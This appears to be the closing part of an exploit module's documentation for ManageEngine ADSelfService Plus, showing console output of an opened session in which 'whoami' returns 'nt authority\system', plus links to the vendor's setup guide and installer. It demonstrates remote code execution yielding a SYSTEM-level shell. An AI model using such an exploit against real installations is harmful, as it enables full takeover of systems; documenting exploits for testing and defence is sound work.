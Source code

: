 ```
[*] Starting interaction with 1...


PS C:\ManageEngine\ADSelfService Plus\bin> id
id
id : The term 'id' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ id
+ ~~
    + CategoryInfo          : ObjectNotFound: (id:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
 
PS C:\ManageEngine\ADSelfService Plus\bin> whoami
whoami
nt authority\system
PS C:\ManageEngine\ADSelfService Plus\bin> 
```


[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe